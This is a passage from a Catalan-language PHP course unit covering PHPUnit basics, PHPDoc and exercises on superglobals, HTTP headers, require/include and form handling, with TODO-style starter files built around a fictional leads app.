Encara que Xdebug siga molt potent, per a errors senzills (una variable amb el valor inesperat, un array mal format) sovint és més ràpid un `var_dump()` puntual. Reserva Xdebug per a errors complexos, on cal seguir el flux d'execució pas a pas o entendre per què una funció no es comporta com s'espera.
:::

### PHPUnit: proves automatitzades

Fins ara, per a comprovar que una funció funciona correctament, l'hem executada manualment i n'hem mirat l'eixida. **PHPUnit** permet escriure proves (*tests*) que comproven automàticament que el codi es comporta com s'espera, i que es poden tornar a executar en qualsevol moment (per exemple, després de modificar codi) per a assegurar-se que no s'ha trencat res.

::: info Nota
Este és un primer tast molt bàsic de PHPUnit. En unitats posteriors, treballant amb Laravel (que incorpora PHPUnit integrat), aprofundirem en tipus de proves més complets.
:::

#### Instal·lació amb Composer

```bash
composer require --dev phpunit/phpunit
```

::: tip Bona pràctica
S'instal·la amb el flag `--dev` perquè PHPUnit és una eina de **desenvolupament**: no ha de formar part del codi que s'executa en producció.
:::

#### Estructura bàsica d'un test

Suposem la classe següent que volem testejar:

```php
<?php
// src/Calculadora.php
class Calculadora {
    public function sumar(float $a, float $b): float {
        return $a + $b;
    }

    public function dividir(float $a, float $b): float {
        if ($b === 0.0) {
            throw new InvalidArgumentException('No es pot dividir per zero.');
        }
        return $a / $b;
    }
}
```

```php
<?php
// tests/CalculadoraTest.php
use PHPUnit\Framework\TestCase;

require_once __DIR__ . '/../src/Calculadora.php';

class CalculadoraTest extends TestCase {

    public function testSumaDosNombresPositius(): void {
        $calculadora = new Calculadora();
        $resultat = $calculadora->sumar(2, 3);

        $this->assertEquals(5, $resultat);
    }

    public function testDividirPerZeroLlançaExcepcio(): void {
        $calculadora = new Calculadora();

        $this->expectException(InvalidArgumentException::class);
        $calculadora->dividir(10, 0);
    }
}
```

::: warning Atenció
Els mètodes de test han de començar sempre pel prefix `test` (per exemple, `testSumaDosNombresPositius`) perquè PHPUnit els reconega i els execute automàticament.
:::

#### Execució de les proves

```bash
./vendor/bin/phpunit tests
```

Eixida esperada si tot funciona correctament:
PHPUnit 10.x

.. 2 / 2 (100%)

Time: 00:00.015, Memory: 6.00 MB

OK (2 tests, 2 assertions)


#### Mètodes d'aserció més habituals

| Mètode | Comprova |
|---|---|
| `assertEquals($esperat, $real)` | Que dos valors són iguals (`==`) |
| `assertSame($esperat, $real)` | Que dos valors són idèntics (`===`, tipus inclòs) |
| `assertTrue($valor)` / `assertFalse($valor)` | Que un valor és `true`/`false` |
| `assertNull($valor)` | Que un valor és `null` |
| `assertCount($n, $array)` | Que un array té `$n` elements |
| `expectException($classe)` | Que el codi llança una excepció d'eixa classe |


### Documentació del codi: PHPDoc

**PHPDoc** és la convenció estàndard per a documentar codi PHP mitjançant blocs de comentaris especials, que a més permeten que l'editor (VS Code, PhpStorm...) mostre ajuda i autocompletat.

```php
<?php
/**
 * Calcula el preu final d'un producte aplicant un descompte.
 *
 * @param float $preu Preu original del producte, en euros.
 * @param float $percentatgeDescompte Percentatge de descompte a aplicar (0-100).
 * @return float Preu final després d'aplicar el descompte.
 * @throws InvalidArgumentException Si el percentatge no està entre 0 i 100.
 */
function calcularPreuAmbDescompte(float $preu, float $percentatgeDescompte): float {
    if ($percentatgeDescompte < 0 || $percentatgeDescompte > 100) {
        throw new InvalidArgumentException('El percentatge ha d\'estar entre 0 i 100.');
    }

    return $preu * (1 - $percentatgeDescompte / 100);
}
```

Etiquetes (*tags*) més habituals:

| Etiqueta | Ús |
|---|---|
| `@param` | Descriu un paràmetre (tipus + nom + descripció) |
| `@return` | Descriu el valor de retorn |
| `@throws` | Indica quines excepcions pot llançar la funció |
| `@var` | Indica el tipus d'una propietat de classe |
| `@deprecated` | Marca una funció/mètode obsolet |

::: tip Bona pràctica
Encara que PHP permet ja indicar tipus directament a la signatura de la funció (`float $preu`), el PHPDoc continua sent útil per a **explicar el propòsit** del paràmetre (no només el tipus) i per a documentar excepcions (`@throws`), cosa que la signatura de la funció no reflectix.
:::

```php
<?php
class Producte {
    /** @var string Nom del producte */
    private string $nom;

    /** @var float Preu en euros, sense IVA */
    private float $preu;
}
```
## 10. Exercicis

### 10.1. Supervariables

#### Exercici 1.1 — Panell de la petició

**Fitxer de partida:** `exercici1.1.php`

::: details 📄 **exercici1.1.php**

```php
<?php
    // TODO 1: Declara $metode, $host i $uri amb els valors de $_SERVER
    // que corresponen a les claus 'REQUEST_METHOD', 'HTTP_HOST' i 'REQUEST_URI'

    // TODO 2: Captura $_GET['lead'] amb ?? (per defecte 'Cap lead seleccionat')
    // i guarda-la en $lead

    // TODO 3: Declara $nota = ''. Després, si $metode === 'POST',
    // captura $_POST['nota'] amb trim() i ?? (per defecte '') i guarda-la en $nota

    // TODO 4: Crea l'array associatiu $resum amb les claus 'GET', 'POST', 'COOKIE' i 'FILES'.
    // El valor de cada clau ha de ser el count() de la supervariable corresponent

?>
<!DOCTYPE html>
<html lang="ca">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Exercici 1.1 - Panell de la petició</title>
    <script src="https://cdn.tailwindcss.com"></script>
</head>
<body class="bg-gray-100 min-h-screen p-8">

    <!-- VISTA: no cal tocar res d'ací en avall -->
    <div class="max-w-3xl mx-auto space-y-6">

        <h1 class="text-2xl font-bold text-gray-800">Panell de la petició · TechLeads</h1>

        <!-- $_SERVER -->
        <div class="bg-white p-6 rounded-lg shadow-md">
            <h2 class="text-lg font-semibold text-gray-800 mb-3">Informació de la petició <code class="text-sm text-blue-700">$_SERVER</code></h2>
            <ul class="text-gray-700 space-y-1">
                <li><span class="font-semibold">Mètode:</span> <?= htmlspecialchars($metode) ?></li>
                <li><span class="font-semibold">Host:</span> <?= htmlspecialchars($host) ?></li>
                <li><span class="font-semibold">Ruta sol·licitada:</span> <?= htmlspecialchars($uri) ?></li>
            </ul>
        </div>

        <!-- $_GET -->
        <div class="bg-white p-6 rounded-lg shadow-md">
            <h2 class="text-lg font-semibold text-gray-800 mb-3">Selecciona un lead <code class="text-sm text-blue-700">$_GET</code></h2>
            <div class="flex gap-3 mb-4">
                <a href="?lead=Aina" class="bg-blue-600 hover:bg-blue-700 text-white font-semibold px-4 py-2 rounded">Aina</a>
                <a href="?lead=Marc" class="bg-blue-600 hover:bg-blue-700 text-white font-semibold px-4 py-2 rounded">Marc</a>
                <a href="exercici1.1.php" class="bg-gray-300 hover:bg-gray-400 text-gray-800 font-semibold px-4 py-2 rounded">Netejar</a>
            </div>
            <p class="text-gray-700">Lead seleccionat: <span class="font-semibold text-purple-700"><?= htmlspecialchars($lead) ?></span></p>
        </div>

        <!-- $_POST -->
        <div class="bg-white p-6 rounded-lg shadow-md">
            <h2 class="text-lg font-semibold text-gray-800 mb-3">Afig una nota <code class="text-sm text-blue-700">$_POST</code></h2>
            <form method="POST" action="" class="flex gap-2 mb-4">
                <input type="text" name="nota" placeholder="Escriu una nota..."
                       class="flex-1 border border-gray-300 rounded px-3 py-2">
                <button type="submit" class="bg-green-600 hover:bg-green-700 text-white font-semibold px-4 py-2 rounded">
                    Enviar
                </button>
            </form>
            <?php if ($metode === 'POST'): ?>
                <p class="text-gray-700">Nota rebuda: <span class="font-semibold text-green-700"><?= htmlspecialchars($nota) ?></span></p>
            <?php else: ?>
                <p class="text-gray-500">Encara no has enviat cap nota.</p>
            <?php endif; ?>
        </div>

        <!-- Resum -->
        <div class="bg-white p-6 rounded-lg shadow-md">
            <h2 class="text-lg font-semibold text-gray-800 mb-3">Resum de supervariables</h2>
            <ul class="text-gray-700 space-y-1">
                <?php foreach ($resum as $nomSuperglobal => $total): ?>
                    <li><code class="text-blue-700">$_<?= $nomSuperglobal ?></code>: <?= $total ?> element(s)</li>
                <?php endforeach; ?>
            </ul>
        </div>

    </div>

</body>
</html>
```
:::

**Objectiu:** Practicar l'accés a les supervariables `$_SERVER`, `$_GET` i `$_POST`, i comprovar que són arrays associatius que es poden tractar com qualsevol altre array (per exemple, amb `count()`).

Tasques a fer dins del fitxer:

1. A `TODO 1`, declara tres variables amb la informació de la petició que et dona `$_SERVER`:
   - `$metode` amb el valor de la clau `'REQUEST_METHOD'`
   - `$host` amb el valor de la clau `'HTTP_HOST'`
   - `$uri` amb el valor de la clau `'REQUEST_URI'`
2. A `TODO 2`, captura el paràmetre `lead` de la URL amb `$_GET` i l'operador `??`, utilitzant `'Cap lead seleccionat'` com a valor per defecte, i guarda'l en `$lead`.
3. A `TODO 3`, declara `$nota = ''`. Després, només si `$metode === 'POST'`, captura `$_POST['nota']` (amb `trim()` i `??` amb `''` per defecte) i guarda'l en `$nota`.
4. A `TODO 4`, crea l'array associatiu `$resum` amb les claus `'GET'`, `'POST'`, `'COOKIE'` i `'FILES'`. El valor de cada clau ha de ser el nombre d'elements (`count()`) de la supervariable corresponent.
5. La vista ja mostra tota la informació que has preparat — no cal que la toques.

**Pista:** Prova els botons *Aina* i *Marc* i fixa't com canvia `$uri` i el compte de `$_GET`. Després envia una nota amb el formulari: el mètode passarà a ser `POST`, però la URL manté el paràmetre `lead` si l'hi havia, així que `$_GET` i `$_POST` tindran elements a la vegada. `$_FILES` seguirà a 0 i `$_COOKIE` normalment també (les cookies de `localhost` es comparteixen entre ports, així que pot eixir algun element d'un altre projecte): les treballarem als punts 4.5 i 5.

### 10.2. Encapçalaments de resposta

#### Exercici 2.1 — Redirecció a la zona de clients

**Fitxers de partida:** `exercici2.1.php` i `zona-clients.php` (este últim ja està fet, no cal tocar-lo)

::: details **📄 exercici2.1.php**

```php
<?php
    // TODO 1: Declara $esClient amb el valor true

    // TODO 2: Si $esClient és true, redirigeix l'usuari a 'zona-clients.php'
    // amb header('Location: ...') i atura l'execució amb exit

?>
<!DOCTYPE html>
<html lang="ca">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Exercici 2.1 - Redirecció</title>
    <script src="https://cdn.tailwindcss.com"></script>
</head>
<body class="bg-gray-100 min-h-screen flex items-center justify-center">

    <!-- VISTA: no cal tocar res d'ací en avall -->
    <div class="bg-white p-8 rounded-lg shadow-md max-w-md w-full text-center">
        <h1 class="text-2xl font-bold text-gray-800 mb-2">Zona pública</h1>
        <p class="text-gray-600">Este contingut només el veuen els visitants que encara no són clients de TechLeads.</p>
    </div>

</body>
</html>
```
:::

::: details **📄 zona-clients.php**

```php
<!DOCTYPE html>
<html lang="ca">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Zona de clients</title>
    <script src="https://cdn.tailwindcss.com"></script>
</head>
<body class="bg-gray-100 min-h-screen flex items-center justify-center">

    <div class="bg-white p-8 rounded-lg shadow-md max-w-md w-full text-center">
        <h1 class="text-2xl font-bold text-blue-700 mb-2">Zona de clients</h1>
        <p class="text-gray-600">Has arribat ací gràcies a una redirecció. Fixa't en l'adreça de la barra del navegador.</p>
    </div>

</body>
</html>
```
:::

**Objectiu:** Practicar la redirecció amb `header('Location: ...')` i la necessitat de cridar a `exit` just després.

Tasques a fer dins del fitxer `exercici2.1.php`:

1. A `TODO 1`, declara la variable `$esClient` amb el valor `true`.
2. A `TODO 2`, amb un `if`, comprova si `$esClient` és `true`. Si ho és, redirigeix l'usuari a `zona-clients.php` amb `header('Location: zona-clients.php')` i atura l'execució amb `exit`.
3. Obri `exercici2.1.php` al navegador i comprova que acabes a la zona de clients (fixa't en l'adreça de la barra). Després canvia `$esClient` a `false` i comprova que ara es queda a la zona pública.

**Pista:** `header()` s'ha de cridar abans d'enviar cap contingut. Per això el bloc PHP està al principi del fitxer: si hi haguera un espai o un salt de línia abans de `<?php`, obtindries l'error *headers already sent*.

#### Exercici 2.2 — Un lead en format JSON

**Fitxers de partida:** `exercici2.2.php` i `prova2.2.html` (este últim ja està fet, no cal tocar-lo)

:::details **📄 exercici2.2.php**

```php
<?php
    // Array ja proporcionat, no cal que el toques
    $leads = [
        1 => ['id' => 1, 'nom' => 'Aina Soler',    'empresa' => 'Textils S.L.',  'pressupost' => 4500.0],
        2 => ['id' => 2, 'nom' => 'Marc Climent',  'empresa' => 'Econova',       'pressupost' => 800.0],
        3 => ['id' => 3, 'nom' => 'Laura Sanchis', 'empresa' => 'Innovacio Tech', 'pressupost' => 12000.0],
    ];

    // Id demanat per la URL (ja proporcionat), per exemple: exercici2.2.php?id=1
    $id = (int) ($_GET['id'] ?? 0);
    $lead = $leads[$id] ?? null;

    // TODO 1: Indica al navegador que la resposta és JSON
    // amb header('Content-Type: application/json')

    // TODO 2: Si $lead és null, respon amb el codi d'estat 404 (http_response_code),
    // imprimeix json_encode(['error' => 'Lead no trobat']) i atura l'execució amb exit

    // TODO 3: Imprimeix el lead en format JSON amb echo json_encode($lead)
```
:::

:::details **📄 prova2.2.html**

```html
<!DOCTYPE html>
<html lang="ca">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Prova de l'exercici 2.2</title>
    <script src="https://cdn.tailwindcss.com"></script>
</head>
<body class="bg-gray-100 min-h-screen flex items-center justify-center">

    <div class="bg-white p-8 rounded-lg shadow-md max-w-md w-full">
        <h1 class="text-xl font-bold text-gray-800 mb-4">Consulta un lead (JSON)</h1>
        <ul class="space-y-2">
            <li><a href="exercici2.2.php?id=1" class="text-blue-600 hover:underline">Lead amb id 1</a></li>
            <li><a href="exercici2.2.php?id=2" class="text-blue-600 hover:underline">Lead amb id 2</a></li>
            <li><a href="exercici2.2.php?id=99" class="text-red-600 hover:underline">Lead amb id 99 (no existeix)</a></li>
        </ul>
    </div>

</body>
</html>
```
:::

**Objectiu:** Practicar l'encapçalament `Content-Type` per a respondre amb JSON i l'ús de `http_response_code()` per a indicar un codi d'estat HTTP.

Tasques a fer dins del fitxer `exercici2.2.php`:

1. Ja tens declarat (no cal que el toques) l'array `$leads`, i també `$id` i `$lead`, que agafen el lead demanat per la URL (`exercici2.2.php?id=1`). Si l'id no existeix, `$lead` val `null`.
2. A `TODO 1`, indica al navegador que la resposta és JSON amb `header('Content-Type: application/json')`.
3. A `TODO 2`, si `$lead` és `null`, respon amb el codi d'estat `404` utilitzant `http_response_code(404)`, imprimeix `json_encode(['error' => 'Lead no trobat'])` i atura l'execució amb `exit`.
4. A `TODO 3`, imprimeix el lead trobat en format JSON amb `echo json_encode($lead)`.
5. Obri `prova2.2.html` i prova els tres enllaços. Amb les eines de desenvolupador del navegador (pestanya *Xarxa*), comprova el `Content-Type` i el codi d'estat de cada resposta.

**Pista:** Fixa't que este fitxer no té HTML ni etiqueta de tancament `?>`: només envia dades. Si t'oblides de l'`exit` després del 404, s'imprimiria també un segon JSON (`null`) després de l'error.

### 10.3. Separació lògica i vistes amb require i include

#### Exercici 3.1 — Plantilla amb capçalera i peu

**Carpeta de partida:** `exercici3.1/`, amb els fitxers `capcalera.php`, `peu.php` i `banner-ofertes.php` (ja fets, no cal tocar-los) i `index.php` i `contacte.php` (els que has de completar).

::: details **📄 exercici3.1/capcalera.php**

```php
<!DOCTYPE html>
<html lang="ca">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title><?= htmlspecialchars($titolPagina ?? 'TechLeads') ?></title>
    <script src="https://cdn.tailwindcss.com"></script>
</head>
<body class="bg-gray-100 min-h-screen flex flex-col">
    <header class="bg-blue-700 text-white">
        <nav class="max-w-3xl mx-auto flex items-center gap-6 px-6 py-4">
            <span class="font-bold text-lg mr-auto">TechLeads</span>
            <a href="index.php" class="hover:underline">Inici</a>
            <a href="contacte.php" class="hover:underline">Contacte</a>
        </nav>
    </header>
```
:::

::: details **📄 exercici3.1/peu.php**

```php
    <footer class="bg-gray-800 text-gray-300 text-center text-sm py-4 mt-auto">
        <p>&copy; <?= date('Y') ?> TechLeads · CFGS DAW</p>
    </footer>
</body>
</html>
```
:::

::: details **📄 exercici3.1/banner-ofertes.php**

```php
<div class="bg-yellow-100 border border-yellow-300 text-yellow-800 text-center py-2 text-sm">
    🎉 Esta setmana: 10% de descompte en el primer pressupost!
</div>
```
:::

::: details **📄 exercici3.1/index.php**

```php
<?php
    // TODO 1: Declara $titolPagina amb el valor 'Inici'
    // (ha de definir-se ABANS d'incloure la capçalera)

    // TODO 2: Incorpora la capçalera amb require 'capcalera.php'

    // TODO 3: Incorpora el banner d'ofertes amb include 'banner-ofertes.php'
    // (és un element opcional: si falla, la pàgina ha de continuar)

?>

<!-- CONTINGUT: no cal tocar res d'ací en avall, excepte el TODO 4 -->
<main class="max-w-3xl mx-auto p-6 flex-1">
    <h1 class="text-3xl font-bold text-gray-800 mb-2">Benvinguts a TechLeads</h1>
    <p class="text-gray-600">Gestiona els teus leads comercials de manera senzilla.</p>
</main>

<?php
    // TODO 4: Incorpora el peu amb require 'peu.php'
?>
```
:::

::: details **📄 exercici3.1/contacte.php**

```php
<?php
    // TODO 1: Declara $titolPagina amb el valor 'Contacte'

    // TODO 2: Incorpora la capçalera amb require 'capcalera.php'

?>

<!-- CONTINGUT: no cal tocar res d'ací en avall, excepte el TODO 3 -->
<main class="max-w-3xl mx-auto p-6 flex-1">
    <h1 class="text-3xl font-bold text-gray-800 mb-2">Contacte</h1>
    <p class="text-gray-600">Escriu-nos a <span class="font-semibold text-blue-700">info@techleads.exemple</span> i et respondrem en 24 hores.</p>
</main>

<?php
    // TODO 3: Incorpora el peu amb require 'peu.php'
?>
```
:::

**Objectiu:** Reutilitzar les parts comunes d'un lloc web (capçalera i peu) amb `require`, passar una dada a l'arxiu inclòs mitjançant una variable i distingir entre `require` (imprescindible) i `include` (opcional).

Tasques a fer:

1. A `index.php`, `TODO 1`: declara la variable `$titolPagina` amb el valor `'Inici'`. Ha de definir-se **abans** d'incloure la capçalera.
2. A `TODO 2`: incorpora la capçalera amb `require 'capcalera.php'`.
3. A `TODO 3`: incorpora el banner d'ofertes amb `include 'banner-ofertes.php'`, ja que és un element opcional.
4. A `TODO 4`: incorpora el peu amb `require 'peu.php'`.
5. A `contacte.php`, fes el mateix amb el títol `'Contacte'`: declara `$titolPagina`, incorpora la capçalera i incorpora el peu (no porta banner).
6. Obri `index.php` al navegador i comprova que el títol de la pestanya canvia entre les dues pàgines i que els enllaços del menú funcionen.
7. **Comprova la diferència entre `include` i `require`:** canvia temporalment el nom de `banner-ofertes.php` per un altre. Amb `include`, la pàgina mostra un *Warning* però continua carregant-se. Ara canvia l'`include` per un `require` i observa què passa.

**Pista:** L'arxiu inclòs comparteix les variables de l'arxiu que el crida. Per això `capcalera.php` pot llegir `$titolPagina` sense que li la passes de cap altra manera, sempre que la definisques abans del `require`.

#### Exercici 3.2 — Separar la lògica de la vista

**Carpeta de partida:** `exercici3.2/`, amb els fitxers `dades_leads.php` (lògica) i `llistat_leads.php` (vista).

::: details **📄 exercici3.2/dades_leads.php**

```php
<?php
// LÒGICA: dades i càlculs. Ací no hi ha HTML.

function obtenirLeads(): array {
    // En un cas real, ací hi hauria una consulta a la base de dades
    return [
        ['nom' => 'Aina Soler',    'empresa' => 'Tèxtils S.L.',   'pressupost' => 4500.0],
        ['nom' => 'Marc Climent',  'empresa' => 'Econova',        'pressupost' => 800.0],
        ['nom' => 'Laura Sanchis', 'empresa' => 'Innovació Tech', 'pressupost' => 12000.0],
    ];
}

function calcularPressupostTotal(array $leads): float {
    // TODO 1: Recorre $leads amb un foreach, suma el 'pressupost' de cada lead
    // i retorna el total
}
```
:::

::: details **📄 exercici3.2/llistat_leads.php**

```php
<?php
    // TODO 2: Carrega 'dades_leads.php' amb require_once
    // i una ruta construïda amb __DIR__

    // TODO 3: Guarda en $leads el resultat de cridar a obtenirLeads()

    // TODO 4: Guarda en $total el resultat de cridar a calcularPressupostTotal($leads)

?>
<!DOCTYPE html>
<html lang="ca">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Exercici 3.2 - Llistat de leads</title>
    <script src="https://cdn.tailwindcss.com"></script>
</head>
<body class="bg-gray-100 min-h-screen p-8">

    <!-- VISTA: no cal tocar res d'ací en avall -->
    <div class="max-w-3xl mx-auto bg-white p-6 rounded-lg shadow-md">
        <h1 class="text-2xl font-bold text-gray-800 mb-4">Llistat de leads</h1>

        <table class="w-full text-left">
            <thead>
                <tr class="border-b text-gray-600">
                    <th class="py-2">Nom</th>
                    <th class="py-2">Empresa</th>
                    <th class="py-2 text-right">Pressupost</th>
                </tr>
            </thead>
            <tbody>
                <?php foreach ($leads as $lead): ?>
                    <tr class="border-b text-gray-700">
                        <td class="py-2"><?= htmlspecialchars($lead['nom']) ?></td>
                        <td class="py-2"><?= htmlspecialchars($lead['empresa']) ?></td>
                        <td class="py-2 text-right"><?= number_format($lead['pressupost'], 2, ',', '.') ?> €</td>
                    </tr>
                <?php endforeach; ?>
            </tbody>
            <tfoot>
                <tr class="font-bold text-gray-800">
                    <td colspan="2" class="py-3">Total</td>
                    <td class="py-3 text-right"><?= number_format($total, 2, ',', '.') ?> €</td>
                </tr>
            </tfoot>
        </table>
    </div>

</body>
</html>
```
:::

**Objectiu:** Separar el processament de dades (lògica) de la presentació (vista), carregant l'arxiu de lògica amb `require_once` i una ruta fiable construïda amb `__DIR__`.

Tasques a fer:

1. A `dades_leads.php`, `TODO 1`: completa la funció `calcularPressupostTotal()`. Recorre l'array `$leads` amb un `foreach`, suma el `'pressupost'` de cada lead i retorna el total.
2. A `llistat_leads.php`, `TODO 2`: carrega `dades_leads.php` amb `require_once`, construint la ruta amb `__DIR__`.
3. A `TODO 3`: guarda en `$leads` el resultat de cridar a `obtenirLeads()`.
4. A `TODO 4`: guarda en `$total` el resultat de cridar a `calcularPressupostTotal($leads)`.
5. Obri `llistat_leads.php` al navegador i comprova que es mostren els tres leads i el total.
6. **Comprova per què existeix `_once`:** duplica la línia del `require_once` i comprova que tot continua funcionant. Després canvia les dues per `require` i observa l'error.

**Pista:** Fixa't que la vista no fa cap càlcul ni accedeix a les dades directament: només mostra les variables `$leads` i `$total` que li prepara la part PHP del principi. Amb `require` duplicat, PHP intentaria declarar dos cops les mateixes funcions i llançaria l'error *Cannot redeclare*.

### 10.4. Ús avançat de formularis

#### Exercici 4.1 — Arrays en formularis

**Fitxer de partida:** `exercici4.1.php`

::: details **📄 exercici4.1.php**

```php
<?php
    $enviat = $_SERVER['REQUEST_METHOD'] === 'POST';

    // TODO 1: Recupera l'array associatiu $_POST['contacte'] (amb ?? [] per defecte)
    // i guarda'l en $contacte. Després declara $nom i $email amb els valors
    // de les claus 'nom' i 'email' d'eixe array (amb ?? i '' per defecte)

    // TODO 2: Recupera l'array $_POST['serveis'] (amb ?? [] per defecte) i guarda'l en $serveis.
    // Declara $totalServeis amb el nombre de serveis marcats (count)

    // TODO 3: Recupera l'array $_POST['idiomes'] (amb ?? [] per defecte) i guarda'l en $idiomes.
    // Declara $resumIdiomes amb els idiomes separats per comes (implode)

?>
<!DOCTYPE html>
<html lang="ca">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Exercici 4.1 - Arrays en formularis</title>
    <script src="https://cdn.tailwindcss.com"></script>
</head>
<body class="bg-gray-100 min-h-screen p-8">

    <!-- VISTA: no cal tocar res d'ací en avall -->
    <div class="max-w-xl mx-auto space-y-6">

        <h1 class="text-2xl font-bold text-gray-800">Sol·licitud d'informació · TechLeads</h1>

        <form method="POST" action="" class="bg-white p-6 rounded-lg shadow-md space-y-4">
            <div>
                <label for="nom" class="block text-sm font-semibold text-gray-700 mb-1">Nom</label>
                <input type="text" id="nom" name="contacte[nom]" class="w-full border border-gray-300 rounded px-3 py-2">
            </div>

            <div>
                <label for="email" class="block text-sm font-semibold text-gray-700 mb-1">Email</label>
                <input type="email" id="email" name="contacte[email]" class="w-full border border-gray-300 rounded px-3 py-2">
            </div>

            <fieldset>
                <legend class="block text-sm font-semibold text-gray-700 mb-1">Serveis d'interés</legend>
                <div class="flex flex-wrap gap-4 text-gray-700">
                    <label class="flex items-center gap-2"><input type="checkbox" name="serveis[]" value="Web"> Web</label>
                    <label class="flex items-center gap-2"><input type="checkbox" name="serveis[]" value="App mòbil"> App mòbil</label>
                    <label class="flex items-center gap-2"><input type="checkbox" name="serveis[]" value="SEO"> SEO</label>
                    <label class="flex items-center gap-2"><input type="checkbox" name="serveis[]" value="Cloud"> Cloud</label>
                </div>
            </fieldset>

            <div>
                <label for="idiomes" class="block text-sm font-semibold text-gray-700 mb-1">
                    Idiomes de comunicació <span class="font-normal text-gray-500">(Ctrl/Cmd + clic per a triar-ne diversos)</span>
                </label>
                <select id="idiomes" name="idiomes[]" multiple size="4" class="w-full border border-gray-300 rounded px-3 py-2">
                    <option value="Valencià">Valencià</option>
                    <option value="Castellà">Castellà</option>
                    <option value="Anglés">Anglés</option>
                    <option value="Francés">Francés</option>
                </select>
            </div>

            <button type="submit" class="bg-blue-600 hover:bg-blue-700 text-white font-semibold px-4 py-2 rounded">
                Enviar sol·licitud
            </button>
        </form>

        <?php if ($enviat): ?>
            <div class="bg-white p-6 rounded-lg shadow-md">
                <h2 class="text-lg font-semibold text-green-700 mb-3">Sol·licitud rebuda</h2>
                <p class="text-gray-700"><span class="font-semibold">Nom:</span> <?= htmlspecialchars($nom) ?></p>
                <p class="text-gray-700"><span class="font-semibold">Email:</span> <?= htmlspecialchars($email) ?></p>

                <p class="text-gray-700 mt-2"><span class="font-semibold">Serveis triats (<?= $totalServeis ?>):</span></p>
                <?php if ($totalServeis === 0): ?>
                    <p class="text-gray-500">Cap servei seleccionat.</p>
                <?php else: ?>
                    <ul class="list-disc list-inside text-gray-700">
                        <?php foreach ($serveis as $servei): ?>
                            <li><?= htmlspecialchars($servei) ?></li>
                        <?php endforeach; ?>
                    </ul>
                <?php endif; ?>

                <p class="text-gray-700 mt-2">
                    <span class="font-semibold">Idiomes:</span>
                    <?= $resumIdiomes !== '' ? htmlspecialchars($resumIdiomes) : 'Cap idioma seleccionat' ?>
                </p>
            </div>
        <?php endif; ?>

    </div>

</body>
</html>
```
:::

**Objectiu:** Recuperar dades que arriben a `$_POST` en forma d'array (`serveis[]`, `idiomes[]` i `contacte[nom]`) i tractar-les amb `count()`, `implode()` i `foreach`.

Tasques a fer dins del fitxer:

1. A `TODO 1`, recupera l'array associatiu `$_POST['contacte']` amb `??` (per defecte, `[]`) i guarda'l en `$contacte`. Després declara `$nom` i `$email` amb els valors de les claus `'nom'` i `'email'` d'eixe array (amb `??` i `''` per defecte).
2. A `TODO 2`, recupera l'array `$_POST['serveis']` (per defecte, `[]`) i guarda'l en `$serveis`. Declara `$totalServeis` amb el nombre de serveis marcats (`count()`).
3. A `TODO 3`, recupera l'array `$_POST['idiomes']` (per defecte, `[]`) i guarda'l en `$idiomes`. Declara `$resumIdiomes` amb els idiomes separats per comes (`implode()`).
4. Prova el formulari de tres maneres: omplint-ho tot, enviant-lo sense marcar cap checkbox ni triar cap idioma, i seleccionant diversos idiomes amb `Ctrl`/`Cmd` + clic.

**Pista:** Els checkboxes sense marcar (i un `select` múltiple sense cap opció triada) **no s'envien**: la clau no existix a `$_POST`. Per això cal usar `?? []` abans de comptar o recórrer l'array; si no, obtindries un *Undefined array key*.

#### Exercici 4.2 — Validació d'un formulari d'alta

**Fitxer de partida:** `exercici4.2.php`

::: details **📄 exercici4.2.php**

```php
<?php
    $errors = [];
    $enviat = $_SERVER['REQUEST_METHOD'] === 'POST';

    if ($enviat) {
        // Dades rebudes (ja proporcionades, no cal que les toques)
        $nom        = trim($_POST['nom'] ?? '');
        $email      = trim($_POST['email'] ?? '');
        $web        = trim($_POST['web'] ?? '');
        $pressupost = trim($_POST['pressupost'] ?? '');

        // TODO 1: El nom és obligatori. Si està buit, afig a $errors
        // el missatge 'El nom és obligatori.'

        // TODO 2: L'email ha de ser vàlid (filter_var amb FILTER_VALIDATE_EMAIL).
        // Si no ho és, afig a $errors el missatge 'L\'email no és vàlid.'

        // TODO 3: La web és opcional, però si s'ha escrit alguna cosa ha de ser una URL vàlida
        // (filter_var amb FILTER_VALIDATE_URL). Missatge: 'La web no és una URL vàlida.'

        // TODO 4: El pressupost ha de ser un enter entre 0 i 100000
        // (filter_var amb FILTER_VALIDATE_INT i les opcions min_range i max_range).
        // Compte: 0 és un valor vàlid. Missatge: 'El pressupost ha de ser un enter entre 0 i 100000.'
    }
?>
<!DOCTYPE html>
<html lang="ca">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Exercici 4.2 - Validació</title>
    <script src="https://cdn.tailwindcss.com"></script>
</head>
<body class="bg-gray-100 min-h-screen p-8">

    <!-- VISTA: no cal tocar res d'ací en avall -->
    <div class="max-w-xl mx-auto space-y-6">

        <h1 class="text-2xl font-bold text-gray-800">Alta de lead · TechLeads</h1>

        <?php if ($enviat && empty($errors)): ?>
            <div class="bg-green-100 border border-green-300 text-green-800 px-4 py-3 rounded">
                Lead donat d'alta correctament!
            </div>
        <?php elseif ($enviat): ?>
            <div class="bg-red-100 border border-red-300 text-red-800 px-4 py-3 rounded">
                <p class="font-semibold mb-1">Revisa les dades:</p>
                <ul class="list-disc list-inside">
                    <?php foreach ($errors as $error): ?>
                        <li><?= htmlspecialchars($error) ?></li>
                    <?php endforeach; ?>
                </ul>
            </div>
        <?php endif; ?>

        <!-- novalidate: desactiva la validació del navegador perquè pugues provar la del servidor -->
        <form method="POST" action="" novalidate class="bg-white p-6 rounded-lg shadow-md space-y-4">
            <div>
                <label for="nom" class="block text-sm font-semibold text-gray-700 mb-1">Nom</label>
                <input type="text" id="nom" name="nom" class="w-full border border-gray-300 rounded px-3 py-2">
            </div>

            <div>
                <label for="email" class="block text-sm font-semibold text-gray-700 mb-1">Email</label>
